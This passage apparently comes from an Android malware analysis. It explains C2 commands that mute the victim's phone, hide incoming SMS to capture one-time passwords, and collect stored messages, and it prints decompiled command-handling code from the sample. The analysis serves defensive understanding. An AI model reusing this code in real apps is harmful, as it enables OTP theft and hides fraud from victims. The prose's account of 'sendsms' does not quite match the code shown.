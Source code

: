 The malware will set the device to mute state using `startmute` command. So when the device gets a notification the victim won't notice. Then the malware will intercept the coming SMS. This makes the received SMS hidden from the victim. This useful for the attacker to get OTP. By using `stophidesms` command, this command stops hidding received SMS. Another command is to get SMS `getsms` to get the stored SMS on the victim's device then upload to C2 server using `sendsms` command.

```cs
if(Intrinsics.areEqual(s, "stophidesms")) {
                    if(!workerService1.checkScreenState(command0)) {
                        return;
                    }

                    if(Intrinsics.areEqual(Telephony.Sms.getDefaultSmsPackage(context0), workerService0.getPackageName())) {
                        preferences0.loopnotifEnabled(Boolean.valueOf(false));
                        this.stopHiddenPush(workerService1);
                        workerService0.getPreferences().isHiddenSMSEnabled(Boolean.valueOf(false));
                        workerService0.getPreferences().isNeedChangeDefaultToChrome(false);
                        workerService0.getPreferences().isNeedChangeDefaultToMessages(true);
                        Context context3 = workerService0.getApplicationContext();
                        Intrinsics.checkNotNullExpressionValue(context3, "workerService.applicationContext");
                        if(!ContexStartExtensionsKt.startApp(context3, "com.samsung.android.messaging")) {
                            Context context4 = workerService0.getApplicationContext();
                            Intrinsics.checkNotNullExpressionValue(context4, "workerService.applicationContext");
                            if(!ContexStartExtensionsKt.startApp(context4, "com.android.messaging")) {
                                Context context5 = workerService0.getApplicationContext();
                                Intrinsics.checkNotNullExpressionValue(context5, "workerService.applicationContext");
                                if(!ContexStartExtensionsKt.startApp(context5, "com.google.android.apps.messaging")) {
                                    Context context6 = workerService0.getApplicationContext();
                                    Intrinsics.checkNotNullExpressionValue(context6, "workerService.applicationContext");
                                    ContexStartExtensionsKt.startApp(context6, "com.android.mms");
                                    return;
                                }
                            }
                        }
                    }
                }        
if(Intrinsics.areEqual(s, "getsms")) {
                        ContexStartExtensionsKt.overlay$default(context0, 0, ((Function0)new PingTasks.onPingReceived.3(workerService1)), 0, 5, null);
                        return;}
 if(Intrinsics.areEqual(s, "sendsms")) {
                        ContexStartExtensionsKt.sendSMS(context0, command0.getNumber(), command0.getText());
                        return;}
 if(Intrinsics.areEqual(s, "startmute")) {
                                this.mutePhone(context0);
                                return;
                            }
if(Intrinsics.areEqual(s, "stopmute")) {
                                this.unmutePhone(context0);
                                return;
                            }

```
The malware collect the SMS stored in the victim's device and send it to C2 server. This happens by collecting the body and the address(number) of the SMS message.
